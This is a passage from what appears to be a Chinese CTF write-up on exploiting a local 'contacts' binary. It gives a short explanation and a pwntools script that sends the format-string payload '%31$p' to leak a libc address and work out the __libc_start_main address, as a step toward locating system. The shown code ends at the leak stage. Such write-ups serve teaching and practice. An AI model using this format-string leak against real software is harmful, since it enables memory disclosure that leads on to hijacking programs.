 ![](./photo/5.jpg)
偏移31处为和__libc_start_main有关的地址。减去247即为__libc_start_main运行时的虚拟地址。然后即可获取相应的libc基址以及system地址。
```
from pwn import*

context.log_level ='debug'
io = process('./contacts')
io.recv()
def create(name, phone, number, payload):
    print('$$$$$$$$$$$$$$$$$$$$$$$$')
    io.sendline('1')
    io.recvuntil('Name:')
    io.sendline(name)
    io.recvuntil('Enter Phone No:')
    io.sendline(phone)
    io.recvuntil('Length of description:')
    io.sendline(number)
    io.recvuntil('Enter description:')
    io.sendline(payload)
    io.recv()

def display():
    io.sendline('4')
    data = io.recvuntil('aaaa')
    return data
create('zzw', '234324234', '200',b'%31$paaaa')
data = display()
__libc_start_main_address = int(data[-12:-4],16) -247

print('[*] __libc_start_main_address is :', hex(__libc_start_main_address))
```